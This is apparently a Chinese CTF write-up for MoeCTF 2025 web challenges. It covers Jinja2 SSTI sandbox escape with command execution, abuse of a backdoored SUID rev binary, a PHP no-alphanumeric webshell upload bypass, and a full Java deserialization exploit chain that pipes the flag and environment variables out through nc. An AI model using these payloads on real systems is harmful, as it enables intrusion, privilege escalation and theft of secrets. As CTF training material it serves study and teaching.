

我们无法拿到执行后的结果。现在，这 Jinja2 页面变成了彻底的盲盒。如何让它说话，哪怕一句——成了我们的难题。

<div align="center">

**「这个阵法…在主动过滤一切回响。」**<!--markdownlint-disable-line MD036-->

</div>

### 破阵法 I：带外攻击

我们有 `dnslog` 等工具，而星澜音刚好也有一台服务器，理论上，既然盲盒从网页那狭小的阵法中吐不出答案，那我们就让它向外部服务器说出一切秘密来。只可惜——MoeCTF 2025 的目标机环境统一未向外开放网络权限。

### 破阵法 II：时间盲注

我们先前说过，Jinja2 支持 `` 语法来进行条件匹配——星澜音灵机一动，能不能用

```python

```

造出一个用于时间盲注的布尔返回器？说干就干：

```python

```

等待……成功了！网页明显卡顿了好几秒，再试几次…仍然有明显的卡顿！找到了，`flag` 应该就在 `/` 下！经过多次反复测试，我们几乎可以断言 `flag` 就位于 `/flag`。现在我们有一个几乎疯狂的思路——用时间盲注，一个一个字符地 `dump` 出整个 `flag`！

星澜音的确尝试编写了这样的脚本，让程序读取 `/flag` 的第 1 个字符，然后按照 ASCII 码停顿不同的秒数，只是……极为奇怪地，无论怎么调整，`cat` 都像被施了法术一样，始终不肯停顿哪怕一秒。星澜音顿时眉头一紧：是不是 `flag` 不是文本文件而是二进制文件？那就只好套一层 `base64` 了；结果还是没有用？星澜音的心沉了半截。

星澜音只能得到一个极为大胆、暴力的推断：

**我们，得不到 `/flag` 文件。**

### 破阵法 III：SUID 权限

我们读不了 `/flag` 文件。这几乎是诡异的梦魇——它近在眼前，又远在天边；它近在咫尺，却遥不可及。我们需要借助一些工具了，那些设置了 SUID 位的工具。

系统内存在一些设置了 SUID 位的可执行文件，它们在执行时，会以文件所有者的权限运行，这是提权的常用路径。我们也许是普通等级的用户，而那 `/flag` 文件是 `root` 用户独有的盛宴，我们的目标，就是找到这些有 SUID 位的可执行文件。

这些文件通常有 `tar`、`zip` 和 `cp` 等。我们可以使用 `find` 来匹配符合条件的文件，但更令人振奋的是，`find` 本身或许就符合条件！我们尝试：

```python

```

嗯……`tar` 不行，但不要灰心，继续匹配剩下的文件！

然后我们会发现，怎么啥都没反应😨按道理来说绝对是有的，但是……具体为什么失败了，我们仍然需要从报错信息中得到，可我们拿不到输出。阵法就此停滞……

<div align="center">

**「穷途末路」……？**

</div>

### 破阵法 IV：Python/Flask/Werkzeug 内核利用

头晕目眩之时，突然有人给星澜音托梦来一段神秘密文：

```python
{{lipsum.__globals__.__builtins__.setattr(lipsum.__spec__.__init__.__globals__.sys.modules.werkzeug.serving.WSGIRequestHandler,"sys_version",lipsum.__globals__.__builtins__.__import__('os').popen('whoami').read())}}
```

毕竟已经无能为力了，只好随便试试看了……输入到用户名里，密码随便输入一个，无力地点了一下按钮……啊？！



有一瞬间星澜音突然感觉原地升天😨这种感觉太恐怖了。这托梦而来的密文为何如此卓有成效？不妨看看它做了什么。

```python
lipsum.__spec__.__init__.__globals__.sys.modules
```

首先，它从 `lipsum`，一个可以访问的全局函数对象，一步步逃逸 Jinja2 的沙箱环境，找到了 Python 解释器中一个包含了所有已加载模块的字典——`sys.modules`，这是惯用做法。

```python
.werkzeug.serving.WSGIRequestHandler
```

接下来，它从其中定位了目标类 `werkzeug.serving.WSGIRequestHandler`。`werkzeug` 是 Flask 框架底层的 WSGI 工具库，它负责处理原始的 HTTP 请求和响应；它其中的 `WSGIRequestHandler` 正是 Werkzeug 中用来处理每一个 HTTP 请求、解析请求并构建最终 HTTP 响应的那个类。

在 `WSGIRequestHandler` 类中，有一个叫做 `sys_version` 的属性，它的默认值是 Python 的版本号，比如 `Python/3.8.10`。这个属性是用来构造 HTTP 响应头中的 `Server` 字段的。比如说，一个正常的 `Server` 头看起来像这样

```plain
Server: Werkzeug/2.0.1 Python/3.8.10
```

这段 Payload 使用 `popen` 执行命令并获取输出，但最后是神来一笔！它使用了一个 `setattr` 调用，将 `WSGIRequestHandler` 这个类的 `sys_version` 属性，从 `"Python/x.x.x"` 直接篡改为 `popen()` 的执行结果！在这里，我们看到它被篡改为了 `MoeCTFer`。


但是为什么网页会乱呢🤔零音推测，应该是我们的 Payload 污染了 HTTP 响应的构建过程。比如说，可能 `WSGIRequestHandler.sys_version` 被修改为 `"MoeCTFer\n"`，在结尾追加了一个 `\n` 换行符。而 Werkzeug 在处理我们的请求结束后，开始构建返回给我们的 HTTP 响应，但恰好，它在构建 `Server` 响应头的时候，将 HTTP 响应头以 `\n` 截断了，这可能造成了 HTTP 响应头注入，我们的浏览器在解析这个畸形的响应时，可能就把 HTTP Body 的源代码错误展示出来了。

总之，我们现在拿到了一个最关键的漏洞——它允许我们执行任意命令了😋事不宜迟，用 `ls` 会会 `/flag` 的真面目——只需将其中一部分改为 `popen('ls -la /')`，看看响应头：

```plain
Werkzeug/3.1.3 total 80
```

嘶……看起来只能展示一行？不过也没关系😋我们用不换行的 Base64 包裹一下就好了。换成这样：

```bash
ls -la / | base64 -w 0
```

得到输出后再转回来😋终于看懂了：

```plain
-rw-------   1 root root   45 Sep  7 09:56 flag
```

6️⃣6️⃣6️⃣，还真是 `root` 只读😡看来我们必须重用带 SUID 权限的二进制文件了。不过有什么呢🤔探测一下：

```bash
find / -user root -perm -4000 -print 2>/dev/null | base64 -w 0
```

看看输出：

```plain
/usr/bin/rev
/usr/bin/mount
/usr/bin/passwd
/usr/bin/su
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/sudo
```

🤔怎么看起来 emmm 没啥能用的…哎别急？！

```plain
/usr/bin/rev
```

`rev`！熟悉 Linux 的朋友们应该知道它是干啥的了，它只是一个用来反转文件每一行的程序，它凭什么拿 SUID 权限啊？😡不过也好😋，`rev` 给了我们可乘之机，我们把 `/flag` 直接 `rev` 过去再 `rev` 回来，不就好了吗？事不宜迟：

```bash
/usr/bin/rev /flag | /usr/bin/rev | base64 -w 0
```

一行命令下去，怎么给我干 Connection closed 了？诡异。几经尝试还是无果，套了 N 层 Base64 还是没招——莫非这 `flag` 真有如此伟大的神力？气死零音了😡😡又一次陷入了僵局😭

正当零音准备放弃时，突然，神谕在耳边响起😨

<div align="center">

**如果一个标准工具被赋予了不标准的权限，那么这个工具本身很可能也是不标准的。**

</div>

🤔沃日，怀疑了这么久 `/flag`，从来没想到过 `/usr/bin/rev` 是不是也有什么问题！Base64 后下载下来丢进 IDA Pro 里，果然没安好心啊😡

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
    int i; // [rsp+1Ch] [rbp-4h]

    for ( i = 1; argc > i + 1; ++i )
    {
        if ( !strcmp("--HDdss", argv[i]) )
        execvp(argv[i + 1], (char *const *)&argv[i + 1]);
    }
    return 0;
}
```

`HDdss`😨？神秘参数名。这段代码遍历了调用它的全体命令行参数，寻找当前参数是否是 `"--HDdss"`，如果是，则执行它后面那个参数作为命令。当然，它用的是 `execvp` 启动新命令，但因为 `/usr/bin/rev` 本身是 SUID `root` 权限，这不爽了吗😋它所启动的一切新命令，都会直接继承 `root` 权限！这根本不是普通的 `rev`，这是一个提权工具。

最终的一切也就了然了。

```bash
/usr/bin/rev --HDdss /bin/cat /flag | base64 -w 0
```

<div align="center">

**三神器共鸣的嗡鸣声中，魔祖缓缓从白骨王座起身。**<br/>
**他眼中的暗金光芒流转，仿佛蕴含着整个幽冥血海的深邃。**

</div>

> [!TIP]
>
> fifker 后来告诉星澜音，`rev` 的源代码就在同目录的 `rev.c` 里😄哎……不过 IDA Pro 本身没占多大事就是了。能做出来就是好事么😋

## WebShell ✅

（咋构造来着🤔我忘了，好像是对 payload 做了个异或运算还是啥……晕。先把 writeup 交了吧，这个题的 writeup 赛后补。）

## WebShell_revenge ✅

> [!NOTE]
> 本题的 `flag` 是随机的。

打开网页看到一串 PHP 代码：

```php
<?php
highlight_file(__FILE__);

if (isset($_GET['shell'])) {
    $shell = $_GET['shell'];
    if (strlen($shell) > 30) {
        die("error: shell length exceeded");
    }
    if (preg_match("/[A-Za-z0-9_$]/", $shell)) {
        die("error: shell not allowed");
    }
    eval($shell);
}
```

这真无敌了，不愧是 `revenge`，加强到哪里去了😨既不能用字母、也不能用数字、还不能用 `_` 和 `$`，甚至长度还不能大于 30，这怎么办？星澜音想了三四天也没想明白，最终还是靠神秘大神托梦了。下面给出一个 payload：

```plain
POST /?shell=?><?=`.+/%3f%3f%3f/%3f%3f%3f%3f%3f%3f%3f%3f[%40-[]`%3b?> HTTP/1.1
Host: 127.0.0.1:13467
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type:multipart/form-data;boundary=--------123
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 114

----------123
Content-Disposition:form-data;name="file";filename="1.txt"

#!/bin/sh
cat /flag
----------123--
```

这种攻击方式基于这样一种思想：30 个字符对于我们构造回显 `/flag` 的 `payload` 来说实在太少，因此我们可以考虑上传一个包含恶意命令的脚本文件，再构造一个无字母数字的执行代码去执行它，这样便可以绕过检测。

我们在 HTTP 请求体中构造了一个 `1.txt`，它的内容很简单：

```bash
#!/bin/sh
cat /flag
```

尽管 PHP 代码中没有处理文件的逻辑，但 PHP 引擎为了处理这个 POST 请求，依然会将这个文件内容保存在一个临时目录 `/tmp` 中，并为它生成一个随机文件名，例如 `/tmp/phpdry1ce`。事已至此，那么我们如何访问这个随机文件名的文件呢？一个合理且正确的猜测是：通配符。

```plain
. /???/????????[@-[]
```

（这个以后补，反正就是通配符可以通配到我们传上去那个文件，然后运行就行。星澜音困很，想睡了）

## 23 第二十三章 幻境迷心·皇陨星沉（大结局）✅

<div align="center">

**被封印的手镯突然迸发最后的光芒！**<br/>
**K皇 的残魂在彻底消散前，将最后的神念注入 HDdss 识海……**

</div>

> [!NOTE]
>
> 零音没学过 Java，做这道题的时候感受到了无尽的痛苦……在这里感谢所有在本题完成过程中为零音提供 Java 源代码分析和技术指导的朋友们，以及那个无时无刻都不会放弃零音的 Gemini😭
>
> 该题目的 `flag` 是随机的。

好…好长的题目！题目给了两个容器，一个是 `dog-app`，一个是 `rev-shell`。还有一个 `demo.jar`。这坏了，零音不会 Java 啊😭看来只能硬着头皮，打开 Java Decompiler 开干了。


这是一个标准的 Spring Boot 可执行 JAR 包（"fat jar"），我们在左侧看到的这三个部分，恰好是 Spring Boot 独特的打包方式的核心。

首先是 `BOOT-INF`，它是我们的应用程序的实际内容所在，将我们的应用和所有依赖封装在一个单一的、可部署的单元内。其中，`BOOT-INF/classes` 包含着我们编写的项目源代码编译后的 `.class` 文件，`BOOT-INF/lib` 包含我们项目所依赖的所有第三方 JAR 包。

其次是 `META-INF`，它是一个符合 Java JAR 规范的标准目录，用来存放元数据（metadata）。其中，它最关键的文件是 `MANIFEST.MF`。这个文件告诉 Java 虚拟机如何运行该 JAR 包，指定 `Main-Class`，指示 Java 使用 Spring Boot 的加载器来启动应用程序。

接下来是 `org.springframework.boot.loader`，它是 Spring Boot Loader 模块的完整代码，被打包进了每一个 Spring Boot fat jar 中。它是一套特殊的类加载器的实现，类似于引导程序。

一般来讲，Java 程序最常出现的便是反序列化漏洞。项目中引用的第三方库，特别是处理序列化的库，通常是我们的攻击目标。我们看看 `BOOT-INF/lib` 下的内容：

```plain
jackson-annotations-2.13.4.jar
jackson-core-2.13.4.jar
jackson-databind-2.13.4.2.jar
jackson-datatype-jdk8-2.13.4.jar
jackson-datatype-jsr310-2.13.4.jar
jackson-module-parameter-names-2.13.4.jar
jakarta.annotation-api.1.3.5.jar
jul-to-slf4j-1.7.36.jar
log4j-api-2.17.2.jar
log4j-to-slf4j-2.17.2.jar
logback-classic-1.2.11.jar
logback-core-1.2.11.jar
slf4j-api-1.7.36.jar
snakeyaml-1.29.jar
spring-aop-5.3.23.jar
spring-beans-5.3.23.jar
spring-boot-2.6.13.jar
spring-boot-autoconfigure-2.6.13.jar
spring-boot-jarmode-layertools-2.6.13.jar
spring-context-5.3.23.jar
spring-core-5.3.23.jar
spring-expression-5.3.23.jar
spring-jcl-5.3.23.jar
spring-web-5.3.23.jar
spring-webmvc-5.3.23.jar
tomcat-embed-core-9.0.68.jar
tomcat-embed-el-9.0.68.jar
tomcat-embed-websocket-9.0.68.jar
```

emmm 似乎没啥能用的。还是去看看代码吧，打开 `/BOOT-INF/classes/com.example.demo/controller/DogController.class`：

```java
package BOOT-INF.classes.com.example.demo.controller;

import com.example.demo.Dog.Dog;
import com.example.demo.Dog.DogService;
import java.util.List;
import org.springframework.web.bind.annotation.DeleteMapping;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.PathVariable;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.RestController;

@RestController
@RequestMapping({ "/dogs" })
public class DogController {
    private final DogService dogService;

    public DogController(DogService dogService) {
        this.dogService = dogService;
    }

    @GetMapping
    public List<Dog> getAllDogs() {
        return this.dogService.getAllDogs();
    }

    @PostMapping
    public Dog addDog(@RequestParam String name, @RequestParam String breed, @RequestParam int age) {
        return this.dogService.addDog(name, breed, age);
    }

    @PostMapping({ "/{id}/feed" })
    public Dog feedDog(@PathVariable int id) {
        return this.dogService.feedDog(id);
    }

    @DeleteMapping({ "/{id}" })
    public Dog removeDog(@PathVariable int id) {
        return this.dogService.removeDog(id);
    }

    @GetMapping({ "/export" })
    public String exportDogs() {
        return this.dogService.exportDogsBase64();
    }

    @PostMapping({ "/import" })
    public String importDogs(@RequestParam("data") String base64Data) {
        this.dogService.importDogsBase64(base64Data);
        return "导入成功！";
    }
}
```

（深度思考中）我们注意到这一行代码：

```java
this.dogService.importDogsBase64(base64Data);
```

（警觉）打开那个狗狗界面看看，可以发现：由于目标机条件过于严格，我们似乎只能从「导入狗狗」那里往目标机搞点文件进去了。那么这个 `importDogsBase64` 一定是我们要利用的重中之重！这很好；我们跟踪到 `dogService` 的 `importDogsBase64` 方法（排版有修改）：

```java
public void importDogsBase64(String base64Data) {
    try(ByteArrayInputStream bais = new ByteArrayInputStream(Base64.getDecoder().decode(base64Data)); 
            ObjectInputStream ois = new ObjectInputStream(bais)) {
        Collection<Dog> imported = (Collection<Dog>)ois.readObject();
        for (Dog dog : imported) {
            dog.setId(this.nextId++);
            this.dogs.put(Integer.valueOf(dog.getId()), dog);
        } 
    } catch (IOException|ClassNotFoundException e) {
        e.printStackTrace();
    }
}
```

这段代码首先使用 `Base64.getDecoder().decode(base64Data)`，将输入的 `base64Data` 字符串解码回原始的字节数组，紧接着：

```java
ByteArrayInputStream bais = new ByteArrayInputStream(...);
ObjectInputStream ois = new ObjectInputStream(bais);
```

程序使用解码后的字节数组创建了一个 `ByteArrayInputStream`，再将其包裹于 `ObjectInputStream` 中，这是 Java 标准库中用于反序列化（从字节流重建对象）的关键类。下面，它开始反序列化对象：

```java
Collection<Dog> imported = (Collection<Dog>) ois.readObject();
```

`ois.readObject()` 是核心方法，它从字节流中读取并重建一个 Java 对象。在这里，该方法期望读取到的是一个 `Collection`（集合，如 `ArrayList`），并且这个集合中的元素都是 `Dog` 类型的对象。代码使用强制类型转换来明确这一点。若导入成功，代码则处理导入的狗狗：

```java
for (Dog dog : imported) {
    dog.setId(this.nextId++); // 为每只狗设置一个新的唯一 ID
    this.dogs.put(Integer.valueOf(dog.getId()), dog); // 将狗放入 Map 中，以 ID 为键
}
```

代码遍历反序列化得到的 `Dog` 集合，并为 `Dog` 各分配一个新的 ID，随后将这只 `Dog` 放入一个名为 `dogs` 的映射（`Map<Integer, Dog>`）中，以期通过 ID 快速查找。接下来就是异常处理和资源管理环节了，这些我们先不看。

总而言之，`DogController` 中的 `/dogs/import` 接口接收 Base64 编码的数据，并最终在 `DogService` 中通过 `new ObjectInputStream(bais).readObject()` 来处理，这明确指出了一个 Java 原生的反序列化漏洞。

不过就算我们能反序列化一些东西出来，这巨大的炸弹，我们该如何引爆呢？我们需要寻找一个 gadget 来完成这一点。不妨多看几行代码，我们定位到 `BOOT-INF/classes/com.example.demo/Dog/Dog.class` 里，发现了——这个！

```java
public int hashCode() {
    wagTail(this.object, this.methodName, this.paramTypes, this.args);
    return Objects.hash(new Object[] { Integer.valueOf(this.id) });
}
```

问题呼之欲出啊🤔按道理，`hashCode()` 就是个用来算哈希值的函数，那第 2 行的 `return ...` 按理来说足以做到这一点，这个 `wagTail()` 放到这里，为何如此突兀🤔总而言之，即使它无害，它也不寻常；但这是 CTF，我们必须假定它是有害的。定位到 `BOOT-INF/classes/com.example.demo/Dog/DogModel.class`：

```java
default Object wagTail(Object input, String methodName, Class[] paramTypes, Object[] args) {
    try {
        Class<?> cls = input.getClass();
        Method method = cls.getMethod(methodName, paramTypes);
        return method.invoke(input, args);
    } catch (Exception e) {
        e.printStackTrace();
        return null;
    } 
}
```

这玩意…似乎是，**「反射」**？！

当然，向零音提到「反射」的话，零音大概率会想到自己 **喜欢很久的 [@干冰DryIce](https://github.com/DryIce-cc)** 在 ClassIsland 中提交的有关于「自动化」的 Pull Request [自动化初步](https://github.com/ClassIsland/ClassIsland/pull/403)。由于 ClassIsland 的架构问题，对 ClassIsland 设置的直接修改通常都需要用到反射来完成。这里的反射是 C# 中的反射，而题目的反射是 Java 的反射，不过这两者大同小异，或者说，C# 中反射的设计，比 Java 中反射的设计更统一。

~~提到这一点只是为了告诉读者，零音永远喜欢干冰~~

而我们事实上，可以将 C# 中的 `System.Reflection` 命名空间看作是 `java.lang.reflect` 的直接对等物。C# 和 Java 都具有反射，一个极强的原因是，它们都运行在托管环境上，其中 Java 运行在 JVM（Java Virtual Machine）上，而 C# 则运行于 CLR（Common Language Runtime）上。这些运行时环境掌握着所有加载到内存中的类型的元数据（Metadata）。反射就类似于提供给开发者一个 API，让他们在运行时也能访问和利用这些元数据。

我们看到 `wagTail()` 的具体操作：它通过传入的 `input` 对象获取其 `Class` 对象，这是所有反射操作的起点。紧接着：

```java
Method method = cls.getMethod(methodName, paramTypes);
```

这是反射的核心。这行代码通过 `Class` 对象的 `getMethod` 方法，根据方法名和参数类型列表找到对应的 `Method` 对象。（这个方法必须是 `public` 的）

```java
return method.invoke(input, args);
```

紧接着，这行代码通过 `Method` 对象的 `invoke` 方法，实际执行找到的对象。后续的异常处理我们继续忽略。总而言之，`wagTail()` 可以用来进行一次反射——它可以调用 Java 程序中的任何对象，以任何参数调用任何方法。

这是好的；但是就算 `wagTail()` 能引起一次反射，我们要让它在这次反射中做到什么呢🤔我们有一个这样的遥控器，但我们要遥控什么呢？我们引入一个强大的东西：`TemplatesImpl`。

`TemplatesImpl` 是 Java 自带的一个正常的类（`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`），它用于处理 XML 数据，但它具有一个特性：它的 `newTransformer()` 方法被调用时，会立即执行我们预先塞在它里面的一段 Java 字节码（`_bytecodes`）！这个字段的本意是好的，它存储从 XSLT 样式表编译得到的 Java 字节码，至少从性能的角度来考虑，编译一次后存储字节码，其性能远远强于每次使用时再解析 XSLT 文件。但这恰好给我们了可乘之机：我们直接绕过 XSLT 编译过程，把自己构造的、恶意的 Java 字节码设置到这个 `_bytecodes` 字段中即可。

我们最终构造这样一个命令：

```java
java.lang.Runtime.getRuntime().exec(new String[]{"/bin/sh", "-c", "printenv | nc 127.0.0.1 8888"});
```

现在我们需要一个代码编译器，来将这个字符串写的命令编译成 `TemplatesImpl` 能看懂的字节码。我们使用 `javassist` 即可做到这一点。构造这样的 Java 程序：

```java
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Base64;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;

public class FlagStealer {

    public static void setField(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception {
        String command = "cat /flag | nc 127.0.0.1 8888";

        ClassPool pool = ClassPool.getDefault();
        CtClass evilClass = pool.makeClass("Pwn");
        String evilCode = "java.lang.Runtime.getRuntime().exec(new String[]{\"/bin/sh\", \"-c\", \"" + command + "\"});";
        evilClass.addConstructor(new CtConstructor(new CtClass[0], evilClass));
        evilClass.getConstructors()[0].setBody(evilCode);
        evilClass.setSuperclass(pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet"));
        byte[] evilBytecode = evilClass.toBytecode();

        TemplatesImpl templates = new TemplatesImpl();
        setField(templates, "_bytecodes", new byte[][]{evilBytecode});
        setField(templates, "_name", "Pwn");
        setField(templates, "_tfactory", new TransformerFactoryImpl());

        Class<?> dogClass = Class.forName("com.example.demo.Dog.Dog");
        Object triggerDog = dogClass.getDeclaredConstructors()[0].newInstance(1, "TheFlag", "pwn", 777);
        setField(triggerDog, "object", templates);
        setField(triggerDog, "methodName", "newTransformer");
        setField(triggerDog, "paramTypes", new Class[0]);
        setField(triggerDog, "args", new Object[0]);

        HashSet<Object> finalPayload = new HashSet<>();
        HashMap<Object, Object> internalMap = new HashMap<>();
        Field tableField = HashMap.class.getDeclaredField("table");
        tableField.setAccessible(true);
        Object[] table = (Object[]) tableField.get(internalMap);
        Class<?> nodeClass = Class.forName("java.util.HashMap$Node");
        Constructor<?> nodeConstructor = nodeClass.getDeclaredConstructor(int.class, Object.class, Object.class, nodeClass);
        nodeConstructor.setAccessible(true);
        Object node = nodeConstructor.newInstance(0, triggerDog, new Object(), null);
        if (table == null) { table = (Object[]) java.lang.reflect.Array.newInstance(nodeClass, 1); }
        table[0] = node;
        tableField.set(internalMap, table);
        Field sizeField = HashMap.class.getDeclaredField("size");
        sizeField.setAccessible(true);
        sizeField.set(internalMap, 1);
        Field mapField = HashSet.class.getDeclaredField("map");
        mapField.setAccessible(true);
        mapField.set(finalPayload, internalMap);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(finalPayload);
        oos.close();
        String base64Payload = Base64.getEncoder().encodeToString(baos.toByteArray());
        System.out.println(base64Payload);
    }
}
```

正如之前所说的，星澜音不会写 Java，这个程序就让 Gemini 代笔了😭

程序在这里使用 Javassist 动态创建一个恶意类 `Pwn`，然后在构造函数中插入执行系统命令的代码。

```java
CtClass evilClass = pool.makeClass("Pwn");
String evilCode = "java.lang.Runtime.getRuntime().exec(...)";
```

随后利用老生常谈的 `TemplatesImpl` 类来加载恶意字节码。

```java
TemplatesImpl templates = new TemplatesImpl();
setField(templates, "_bytecodes", new byte[][]{evilBytecode});
```

接下来程序构建触发对象：它创建一个 `Dog` 对象作为触发器，设置其反射调用 `TemplatesImpl` 的 `newTransformer` 方法：

```java
Object triggerDog = dogClass.getDeclaredConstructors()[0].newInstance(1, "TheFlag", "pwn", 777);
setField(triggerDog, "object", templates);
setField(triggerDog, "methodName", "newTransformer");
```

最后构造一个特殊的 `HashSet`：

```java
HashSet<Object> finalPayload = new HashSet<>();
HashMap<Object, Object> internalMap = new HashMap<>();
```

等等🤔为什么一定要用 `HashSet`？其实这里又利用了 `HashSet` 的一个特性，它在拿到任何东西的时候都会必须先试试这东西的 `hashCode()`，这个过程是全自动的！也就是说，服务器在反序列化这个 `HashSet` 的时候，就一定会去调用这个 `hashCode()`！这是我们调用 `hashCode()` 的最好办法了😋

对了，跑之前记得装一下 OpenJDK 8，因为注意到新版 JDK 对部分安全相关的功能进行了限制。总之，两个环境一个开 `nc` 监听，一个用 `nc` 发包就可以了😋至于输出，零音在这里就不放了。

## 附加挑战 ✅

哈喽又是我，10 月 8 日补 writeup 的星澜音。有人可能会问为啥你不过几天再写？这么说吧，星澜音的国庆假高数作业完成度 10%😭想了想还是先把 writeup 写了吧。

其实不难，第二十三章看懂了这个就是显然的。我们直接给出 payload，用它来替换上面的 payload 中对应部分即可。

```java
String evilCode = "{\n"
        + "  try {\n"
        + "    String cmd = \"flag=$(awk '{printf \\\"%s\\\",$0}' /proc/self/environ); \";\n"
        + "    cmd += \"if command -v base64 >/dev/null 2>&1; then enc=$(printf \\\"%s\\\" \\\"$flag\\\" | base64 -w0 2>/dev/null || printf \\\"%s\\\" \\\"$flag\\\" | base64); else enc=$(printf \\\"%s\\\" \\\"$flag\\\"); fi; \";\n"
        + "    // Escape + / = from base64 so form parsing won't mangle it\n"
        + "    cmd += \"enc2=$(printf '%s' \\\"$enc\\\" | sed -e 's/+/%2B/g' -e 's:/:%2F:g' -e 's/=/%3D/g'); \";\n"
        + "    cmd += \"data=\\\"name=$enc2&breed=pwn&age=1\\\"; \";\n"
        + "    cmd += \"len=$(printf '%s' \\\"$data\\\" | wc -c); \";\n"
        + "    cmd += \"printf 'POST /dogs HTTP/1.1\\\\r\\\\nHost: 127.0.0.1\\\\r\\\\nContent-Type: application/x-www-form-urlencoded\\\\r\\\\nContent-Length: %d\\\\r\\\\n\\\\r\\\\n%s' $len \\\"$data\\\" | nc 127.0.0.1 8080\";\n"
        + "    java.lang.Runtime.getRuntime().exec(new String[]{\"/bin/sh\",\"-c\",cmd});\n"
        + "  } catch (Exception e) { }\n"
        + "}";
```

因为这个 Spring Boot 程序会响应对 `/dogs` 的 HTTP POST 请求，并将其解读为添加狗狗的操作，所以我们套一个双层炸弹，让特工狗先注入进去，就像第二十三章那样，不过不让它把东西给反弹机，而是让它再造一个狗狗出来。

刚开始星澜音用了 `curl`，但是死活不行，突然一想，会不会远程环境没有 `curl`？🤔这下说得通了😄但是根据第二十三章的经验，`nc` 应该是有的吧，那就手动构造 HTTP POST 请求好了。

这段 payload 是雾雨（GPT-5）写的，反正我写不出来😭雾雨做了一堆鲁棒性优化，不过我寻思其实普通的指令应该就能行，大不了注入不了再改，问题不大。不过雾雨还是聪明的😋雾雨大善人😭

